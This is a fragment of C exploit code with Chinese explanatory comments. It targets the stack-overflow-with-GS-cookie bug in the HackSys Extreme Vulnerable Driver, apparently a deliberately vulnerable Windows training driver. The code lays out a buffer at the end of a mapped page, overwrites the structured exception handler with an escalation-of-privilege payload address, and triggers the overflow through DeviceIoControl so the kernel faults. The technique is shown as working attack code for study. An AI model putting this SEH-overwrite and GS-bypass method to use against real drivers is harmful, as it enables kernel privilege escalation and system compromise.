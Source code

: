 ```
        //MapViewOfFile 将一个文件映射对象映射到当前应用程序的地址空间
        SharedMappedMemoryAddress = MapViewOfFile(Sharedmemory,
                                                  FILE_MAP_ALL_ACCESS,
                                                  0,
                                                  0,
                                                  PageSize);
 
        if (!SharedMappedMemoryAddress) {
            DEBUG_ERROR("\t\t\t[-] Failed To Map Shared Memory: 0x%X\n", GetLastError());
            exit(EXIT_FAILURE);
        }
        else {
            DEBUG_INFO("\t\t\t[+] Mapped Shared Memory: 0x%p\n", SharedMappedMemoryAddress);
        }
 
        SuitableMemoryForBuffer = (PVOID)((ULONG)SharedMappedMemoryAddress + (ULONG)(PageSize - SeHandlerOverwriteOffset));//SeHandlerOverwriteOffset 0x224大小，距离se handle的偏移
 
        DEBUG_INFO("\t\t[+] Suitable Memory For Buffer: 0x%p\n", SuitableMemoryForBuffer);
 
        DEBUG_INFO("\t\t[+] Preparing Buffer Memory Layout\n");
 
        RtlFillMemory(SharedMappedMemoryAddress, PageSize, 0x41);//'A'填充
 
        MemoryAddress = (PVOID)((ULONG)SuitableMemoryForBuffer + 0x204);
        *(PULONG)MemoryAddress = 0x42424242;           
 
        DEBUG_INFO("\t\t\t[+] XOR'ed GS Cookie Value: 0x%p\n", *(PULONG)MemoryAddress);
        DEBUG_INFO("\t\t\t[+] XOR'ed GS Cookie Address: 0x%p\n", MemoryAddress);
 
        MemoryAddress = (PVOID)((ULONG)MemoryAddress + 0x4);
        *(PULONG)MemoryAddress = 0x43434343;          
 
        MemoryAddress = (PVOID)((ULONG)MemoryAddress + 0x4);
        *(PULONG)MemoryAddress = 0x44444444;           
 
        DEBUG_INFO("\t\t\t[+] Next SE Handler Value: 0x%p\n", *(PULONG)MemoryAddress);
        DEBUG_INFO("\t\t\t[+] Next SE Handler Address: 0x%p\n", MemoryAddress);
 
        MemoryAddress = (PVOID)((ULONG)MemoryAddress + 0x4);
        *(PULONG)MemoryAddress = (ULONG)EopPayload;     // EopPayload覆盖SE Handler，SuitableMemoryForBuffer+0x220
 
        DEBUG_INFO("\t\t\t[+] SE Handler Value: 0x%p\n", *(PULONG)MemoryAddress);
        DEBUG_INFO("\t\t\t[+] SE Handler Address: 0x%p\n", MemoryAddress);
 
        DEBUG_INFO("\t\t[+] EoP Payload: 0x%p\n", EopPayload);
 
        DEBUG_MESSAGE("\t[+] Triggering Kernel Stack Overflow GS\n");
 
        OutputDebugString("****************Kernel Mode****************\n");
 
        DeviceIoControl(hFile,
                        HACKSYS_EVD_IOCTL_STACK_OVERFLOW_GS,
                        (LPVOID)SuitableMemoryForBuffer,// SuitableMemoryForBuffer = (PVOID)((ULONG)SharedMappedMemoryAddress + (ULONG)(PageSize - SeHandlerOverwriteOffset));//SeHandlerOverwriteOffset 0x224大小，距离se handle的偏移
                        (DWORD)SeHandlerOverwriteOffset + RAISE_EXCEPTION_IN_KERNEL_MODE,//RAISE_EXCEPTION_IN_KERNEL_MODE 0x4,利用这个多出来的0x4大小，使得驱动访问无效内存，触发异常
                        NULL,
                        0,
                        &BytesReturned,
                        NULL);
```